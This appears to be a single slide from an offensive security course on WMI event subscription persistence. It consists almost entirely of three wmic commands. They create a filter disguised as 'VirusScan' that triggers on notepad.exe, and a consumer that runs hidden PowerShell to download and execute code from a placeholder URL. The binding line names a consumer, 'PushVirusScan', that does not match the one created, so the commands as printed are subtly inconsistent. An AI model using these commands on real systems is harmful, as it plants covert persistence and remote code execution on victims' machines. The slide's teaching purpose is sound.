

# WMI Event Subscription
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\"”
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""

Offensive Security
12